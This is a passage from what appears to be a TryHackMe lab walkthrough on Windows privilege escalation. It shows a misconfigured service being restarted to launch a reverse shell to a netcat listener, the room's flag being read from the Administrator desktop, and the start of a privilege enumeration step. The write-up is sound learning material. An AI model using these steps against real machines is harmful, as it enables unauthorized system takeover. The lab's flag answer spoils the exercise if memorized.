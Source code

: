 10. `sc start <SERVICE>` from the compromised Windows machine to restart our target service, but this time it'll execute our payload and spawn in a reverse shell that'll connect back to our active netcat listener that's running on our attack machine
```PowerShell
C:\Users\thm-unpriv>sc start THMService

SERVICE_NAME: THMService
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 3884
        FLAGS              :
```
```Bash
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.165.129 49902 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

11. `type <FILENAME>` from our reverse shell to display the contents of the file containing this task's flag
```PowerShell
C:\Windows\system32>type C:\Users\Administrator\Desktop\flag.txt
type C:\Users\Administrator\Desktop\flag.txt
THM{INSECURE_SVC_CONFIG}
```


**TASK COMPLETED!**

## Abusing Dangerous Privileges

1. Started this task's machine
2. `whoami /priv` from the compromised Windows machine to display the security privileges held on the system by the user that we're currently authenticated as
```PowerShell
C:\Windows\system32>whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                    State
============================= ============================== ========
SeBackupPrivilege             Back up files and directories  Disabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```
